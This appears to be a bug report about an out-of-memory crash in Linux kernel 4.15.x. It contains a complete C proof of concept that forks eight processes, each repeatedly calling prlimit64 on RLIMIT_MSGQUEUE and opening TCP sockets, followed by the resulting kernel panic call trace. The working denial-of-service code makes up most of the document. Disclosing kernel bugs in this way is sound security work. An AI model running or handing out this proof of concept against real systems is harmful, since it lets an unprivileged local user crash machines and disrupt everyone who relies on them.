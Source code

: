 I just found a crash on LK v4.15.x (maybe the most of LKs). It has to happen.
Because, resizing limitation of MSGQUEUE to **0** and calling socket$xxx repeatedly, as result, occurs OOM (out of memory).

### PoC
> gcc -o poc -std=c99 poc.c

```c
#define _GNU_SOURCE 

#include <unistd.h>

#include <sys/types.h>
#include <sys/syscall.h>

static void test();

void loop() {
	while (1) test();
}

void test() {
	syscall(__NR_mmap, 0x20000000, 0x9000, 0x3, 0x32, -1, 0);  // just space
	syscall(__NR_prlimit64, 0x0, 0x7, 0x20000000, 0x20000000); // 0x7 => RLIMIT_MSGQUEUE
	syscall(__NR_socket, 0x2, 0x1, 0x0);                       // socket$inet_tcp
}

void main(int argc, char *argv[], char **envp) {
	for (int i = 0; i < 8; ++i) {
		int pid = fork();
		if (pid == 0) {
			loop();
			return;
		}
	}

	sleep(1000000); // wait
}
```

### Call Trace (Dump)
```c
[   61.885712] CPU: 1 PID: 1 Comm: init Not tainted 4.15.0-rc4+ #4
[   61.885987] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Ubuntu-1.8.2-1ubuntu1 04/01/2014
[   61.886426] Call Trace:
[   61.886553]  dump_stack+0x104/0x1cd
[   61.886723]  ? _atomic_dec_and_lock+0x153/0x153
[   61.886945]  panic+0x1aa/0x39b
[   61.887095]  ? add_taint.cold.3+0x16/0x16
[   61.887291]  ? blocking_notifier_call_chain+0xc5/0x160
[   61.887533]  ? srcu_init_notifier_head+0x80/0x80
[   61.887752]  ? rcutorture_record_progress+0x10/0x10
[   61.887981]  ? save_trace+0x2f0/0x2f0
[   61.888170]  out_of_memory.cold.38+0x1e/0x64
[   61.888378]  ? oom_killer_disable+0x2c0/0x2c0
[   61.888604]  ? mutex_trylock+0x1fe/0x260
[   61.888791]  ? __alloc_pages_slowpath+0x119d/0x29c0
[   61.889023]  ? ww_mutex_lock.part.2+0xf0/0xf0
[   61.889243]  ? __alloc_pages_slowpath+0x1f6c/0x29c0
[   61.889481]  ? sched_clock+0x5/0x10
[   61.889656]  ? warn_alloc+0x110/0x110
[   61.889833]  ? lock_downgrade+0x690/0x690
[   61.890028]  ? lock_release+0xff0/0xff0
```